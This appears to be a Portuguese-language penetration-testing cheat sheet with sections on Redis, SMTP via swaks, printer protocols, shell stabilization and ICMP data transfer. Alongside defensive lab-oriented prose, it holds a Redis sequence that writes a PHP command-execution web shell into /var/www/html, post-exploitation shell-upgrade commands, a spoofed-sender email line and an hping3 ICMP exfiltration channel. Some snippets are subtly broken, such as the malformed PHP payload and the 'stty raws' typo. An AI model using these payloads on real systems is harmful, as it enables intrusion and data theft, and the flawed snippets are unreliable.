

Mapeie o serviço, confirme o comportamento padrão e só então teste permissões ou configurações. Redis, SMTP, impressoras e shells interativas exigem observações diferentes.
01 / Redis
Se Redis puder alterar dir e dbfilename, o processo pode gravar arquivos em locais indevidos. Comece consultando a configuração e as permissões do serviço; a possibilidade de escrita depende também do usuário do processo.
redis-cli -h redis.lab.local CONFIG GET dir
redis-cli -h redis.lab.local CONFIG GET dbfilenameDefesa: restrinja acesso à rede, autentique o serviço, reduza permissões do processo e impeça escrita em diretórios servidos pela aplicação.
Configuração Redis
- revshell php
set PleaseSubscribe "<? system $_REQUEST(['samsx']);?>"
config set dbfilename samsx.php
config set dir /var/www/html
save
02 / SMTP
Use swaks para enviar uma mensagem de teste. Ajuste remetente, destinatário e servidor; identifique a mensagem no assunto para localizar os logs.
swaks --to teste@lab.local --from auditoria@lab.local --server mail.lab.local --body "mensagem de teste" --header "Subject: teste autorizado"Registre aceitação, rejeição, cabeçalhos e autenticação observada.
Envio com swaks
- send email
swaks --to email@domain.com --from root@samsx.com --server mail.domain.com --body "message" --header "Subject: subject"
03 / Impressoras: PS, PJL e PCL
PS, PJL e PCL têm papéis diferentes no processamento de trabalhos de impressão. Identifique primeiro o protocolo aceito pelo equipamento; depois confira quais comandos de listagem, leitura e escrita são suportados.
Como guia, comece identificando o protocolo e o modelo, depois revise exposição de rede, autenticação, atualização de firmware e permissões de armazenamento. Nem todo comando do quadro se aplica a todo equipamento.

04 / Estabilização de shell
Uma PTY melhora edição de linha, sinais e programas interativos em uma shell de laboratório. Duas opções comuns são Python e script:
python3 -c 'import pty; pty.spawn("/bin/bash")'
# ou
script -q /dev/null -c bashNo terminal local, as etapas Ctrl+Z, stty raw -echo, fg e export TERM=xterm podem ajustar o modo interativo. A forma correta para dimensões é stty rows N cols N.
PTY e terminal interativo
- python
python3 -c 'import pty;pty.spawn("/bin/bash")'
[CTRL+z]
stty raw -echo;fg
[enter]
[enter]
export TERM=xterm
stty raws [num] cols [num]
- script
script -q /dev/null -c bash
[CTRL+z]
stty raw -echo;fg
[enter]
[enter]
export TERM=xterm
05 / Outros recursos
hping3: pode transportar dados em pacotes ICMP. Para testar o mecanismo, use um arquivo sem dados sensíveis e observe o tráfego no destino controlado.
Bypass func: dfunc-bypasser ajuda a revisar funções PHP desabilitadas e possíveis caminhos alternativos em um laboratório.
Leitura de arquivos: documente caminho, permissões e canal usado para transferir o conteúdo. O exemplo com hping3 demonstra um canal ICMP.
Funções PHP desabilitadas
Payload em ICMP
sudo hping3 --icmp 127.0.0.1 -d 100 --sign signature --file /tmp/arquivo-de-teste.txt
sudo hping3 --icmp 127.0.0.1 --listen signature --safe